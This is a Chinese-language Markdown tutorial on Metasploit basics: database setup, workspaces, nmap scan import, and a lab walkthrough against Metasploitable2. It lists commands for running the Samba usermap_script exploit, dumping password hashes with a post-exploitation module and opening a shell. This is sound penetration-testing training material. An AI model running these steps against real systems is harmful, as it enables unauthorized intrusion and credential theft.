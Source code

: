 # Metasploit基础
+ Metasploit框架介绍
+ Metasploit数据库设置
+ Metasploit测试案例
+ Metasploit的升级

## Metasploit框架介绍
MSF是用Ruby编写，采用模块化的方法完成渗透测试，易于拓展和代码编写。
目前支持两种界面操作：
+  msfconsole 命令行
+ armitage  图形化界面
## Metasploit数据库设置
使用数据库可储存渗透信息，便于大规模操作
1. ### 启动postgresql 
    `systemctl start postgresql `
2. ### 初始化数据库
    `msfdb init` 
    数据库文件保存在 /usr/share/metasploit-freamwork/config/datebase.yml
3. ### 数据库状态
   `systemctl status postgresql`
   或者打开框架（进入msfconsole）后使用   `db_status`
   ![输入图片描述](1.metasploit%E5%9F%BA%E7%A1%80%E4%BB%8B%E7%BB%8D_md_files/2a9880a0-b627-11ec-b129-9d3e3b1d911b.jpeg?v=1&type=image)
4. ### 其他命令
     框架内查看帮助输入：`?`，可以配合 （管道与过滤命令）` | grep xx命令`进行精确查找

## Metasploit测试案例

对Metasploitable2进行简单的测试

### 1.工作空间设置

workspace

工作空间帮助查询`workspase -h`

工作空间查看`workspace`

星号*所在的位置表示现在所在的空间

工作空间切换 `workspace 工作空间名`

新建工作空间 `workspace -a metasploit2[192.168.108.132]`新建多个空间可以在每个空间之间加空格

重命名 `workspace -r 老名字 新名字 `

删除`workspace -d 工作空间名` `-D`是删除所有空间

### 2.目标导入设置

+ nmap输出扫描结果文件

  `namp -sV -P0 目标Ip -oA 文件名`

  `-sV`扫描开启的服务

  `-P0`不进行主机存活扫描，不进行ping扫描，避免防火墙报警

  `-oA`输出所有格式的文件 如果位规定位置则在那个目录下执行操作保存在那个目录下

  删除之前输出的所有格式的内容`rm xxx.*`

+ msfconsole导入结果

### 3.漏洞利用代码

`db_import文件路径/文件名`导入文件 不加文件名可以查看可以导入的文件类型

导入文件后，可以用`?`查看文件的一些信息如 `host`查看主机或`services`查看服务

+ search 服务名称

  查询可以利用的漏洞攻击载荷

+ info漏洞利用代码

  `info`漏洞攻击载荷（它前面的数字也可以） 可以查看该载荷的使用方式和代码等信息

### 4.漏洞利用流程

+ use 漏洞的路径（前面的数字也可以）如 `use multi/samba/usermap_script `

+ `options`查看所要的配置

+ `set配置`如`set rhost 192.168.217.11`设置ip

+ `run`或`exploit`运行

+ 后台会话

  置于后台 CTRL+z键  再加`y`

  查看`sessions`

### 5.后渗透测试

进行其他方面的渗透

hashdump `use /post/linux/gather/hashdump`

设置session `set session n`数字n与前面的session保持一致 ，`run`运行

 运行后还会将获取的信息保存在相关的文件夹下

loot 查看数据库信息，初次还会将数据库信息保存到本地

进一步信息通过 `loot -h`查询

退回到原来的模块 `sessions -i 进程号`

关于进程其他可以通过 `sessions -h`查询

`shell`获取靶机shell 可以改变竖屏（竖屏太难受了）

## Metasploit升级

`apt-get update`+`apt install metasploit-framework`
